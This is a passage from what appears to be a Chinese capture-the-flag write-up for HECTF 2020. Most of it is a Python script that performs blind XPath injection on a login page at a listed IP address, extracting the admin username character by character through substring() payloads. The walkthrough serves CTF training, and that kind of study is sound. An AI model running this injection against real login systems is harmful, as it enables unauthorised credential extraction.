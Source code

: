 ![image-20201129161255235](2020-HECTF-Write-up/image-20201129161255235.png)

![image-20201129161318627](2020-HECTF-Write-up/image-20201129161318627.png)

最后爆出结构为/root/users/user[id]


开始猜测id为1的user节点下username值，其实能猜到的admin

payload：
```python
# -*- coding: utf-8 -*-
import requests
import re

baseurl = "http://114.55.165.246:8082/?username="

s = "qwertyuiopasdfghjklzxcvbnm1234567890"

result = []

for j in range(1,100):
    flag=0
    for i in range(0, 36):
        payload = "1' or substring(/root/users/user[id=1]/username,"
        payload += str(j)
        payload += ",1)='"
        payload += s[i]
        payload += "' or '1'='1"
        end = "&password=admin&submit=登录"

        url = baseurl + payload + end

        res = requests.get(url).content.decode("utf-8").split("</html>")[1]
        if (re.search("you",res)):
            result.append(s[i])
            flag = 1
            print("第"+str(j)+"位----------->"+s[i])
            break
    if flag==0:
        break
print(result)
```
